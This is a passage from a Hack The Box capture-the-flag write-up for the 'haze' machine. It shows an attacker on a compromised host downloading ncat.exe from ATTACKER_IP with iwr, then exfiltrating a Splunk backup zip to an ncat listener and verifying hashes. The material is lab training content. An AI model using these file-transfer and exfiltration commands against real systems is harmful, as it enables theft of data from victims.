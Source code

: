 The folder contains a Splunk backup.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> cd \Backups\Splunk
*Evil-WinRM* PS C:\Backups\Splunk> ls


    Directory: C:\Backups\Splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip
```

`ncat.exe` can once again be used to download the file from the target to the attack host.
A `loot` directory is created on Kali and a Python web server is started to serve `ncat.exe`.
```
fcoomans@kali:~/htb/haze$ mkdir loot

fcoomans@kali:~/htb/haze$ python -m http.server -d www
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`ncat.exe` was downloaded on the target.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> iwr http://ATTACKER_IP/ncat.exe -outfile ncat.exe
```

`ncat` listener was started to receive the file and write it to `loot/splunk.zip`.
```
fcoomans@kali:~/htb/haze$ ncat -lnp 4444 --recv-only >loot/splunk.zip
```

`ncat.exe` sent the file to the Kali `ncat` listener. 
The file hash was also retrieved.
```
*Evil-WinRM* PS C:\Users\edward.martin\Documents> cmd /c "ncat.exe ATTACKER_IP 4444 --send-only <C:\Backups\Splunk\splunk_backup_2024-08-06.zip"
*Evil-WinRM* PS C:\Users\edward.martin\Documents> get-filehash C:\Backups\Splunk\splunk_backup_2024-08-06.zip

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          771CAEC716410DB9023F47969547A2C38471AD5D09ECC5C2468A0B66E1893BBA       C:\Backups\Splunk\splunk_backup_2024-08-06.zip
```

Running `sha256sum` on the file on the attack host shows that the transfer was successful without any corruptions.
```
fcoomans@kali:~/htb/haze/loot$ sha256sum splunk.zip
771caec716410db9023f47969547a2c38471ad5d09ecc5c2468a0b66e1893bba  splunk.zip
```

The backup file was then unzipped.
```
fcoomans@kali:~/htb/haze/loot$ unzip splunk.zip
Archive:  splunk.zip
   creating: Splunk/
   creating: Splunk/bin/
<SNIP>
```
